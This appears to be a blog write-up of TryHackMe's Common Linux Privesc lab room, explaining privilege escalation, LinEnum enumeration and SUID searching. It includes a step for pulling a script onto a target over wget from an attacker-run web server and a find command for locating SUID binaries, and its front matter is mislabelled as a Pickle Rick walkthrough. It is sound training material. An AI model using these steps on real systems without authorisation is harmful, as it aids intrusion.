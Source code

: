 ```yaml
---
title: TryHackMe - Common Linux Privesc
subtitle: lorem-ipsum
date: '2021-12-12'
thumb_img_alt: lorem-ipsum
content_img_alt: Icelandic horses
excerpt: Follow along with this "Easy" rated box on TryHackMe to save Pickle Rick.
seo:
  title: Pickle Rick Walkthrough - Easy
  description: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
  extra:
    - name: 'og:type'
      value: article
      keyName: property
    - name: 'og:title'
      value: Pickle Rick CTF Walkthrough - Easy
      keyName: property
    - name: 'og:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
      keyName: property
    - name: 'og:image'
      value: /images/o9pyhyU.jpg
      keyName: property
      relativeUrl: true
    - name: 'twitter:card'
      value: summary_large_image
    - name: 'twitter:title'
      value: Pickle Rick CTF Walkthrough - Easy
    - name: 'twitter:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
    - name: 'twitter:image'
      value: /images/o9pyhyU.jpg
      relativeUrl: true
layout: post
thumb_img_path: /images/o9pyhyU.jpg
content_img_path: /images/banner.png
---
```

TryHackMe - Common Linux Privesc (Privilege Escalation): <https://tryhackme.com/room/commonlinuxprivesc>

This box is listed as Easy .  It provides walk-throughs and practice of common linux privilege escalation vectors.  This will not be a walk-through of the machine, but instead a reiteration of the common privesc vectors taught and practiced in the room.

# | What is Privesc?|

Let's start by discussing what "privesc" is.  Essentially, privesc (privilege escalation) is leveraging access to a low pricilege account to move to a higer privilege account (eg user to root).  Privesc can occur in two directions: horizontal and vertical.  In horizontal privesc, access is gained to an account of the same privilege level. This can be beneficial to access private files or if the new user has SUIDs we can exploit.  In vertical privesc, access is gained to an account with more access to the system (admin / root).  Read through the provided information in each of the three tasks and complete each section.

# | ENUMERATION |

## LinEnum

LinEnum is a bash script which performs common commands related to privesc.  It can be downloaded from:

<https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh>

Two ways to get LinEnum onto the target machine:

First - start a python webserver from the directory with your copy of LinEnum.sh. (python3 -m http.server 8000).  Then, wget the file from the target machine (wget \[LOCAL_IP]:8000/LinEnum.sh).  After it has been transfered to the target machine, make the file executable (chmod +x LinEnum.sh).

Second - Provided you have the required permissions, copy the raw code and create a .sh file in vi/nano/etc and paste the code.  Make the file executable.

LinEnum can be run as \`./LinEnum.sh\`

![](/images/LinEnum-bf8e2df3.PNG)

LinEnum provides a lot of information.  Take the time to read the provided documentation and understand what gets returned.

# | ABUSING SUID/GUID FILES |

a SUID is a file (as everything in Linux is) which can be run as the owner regardless of the accessing user (in this case run as root).  These can be leveraged to get a shell and root access.  SUID permissions look like:

\`rws-rwx-rwx\`

whereas GUID permissions look like:

\`rwx-rws-rwx\`

These SUID/GUIDs are reported by LinEnum, but can be searched for manually using:

\`find / -perm -u=s -type f 2>/dev/null\`

\`find - search command

/ - search entire file system

\-perm - find specific permissions

\-u=s - any of the permission bits mode are set for the file

\-type f - only searches for files

2>/dev/null - sends errors to null where they're deleted\`

![](/images/SUID.PNG)
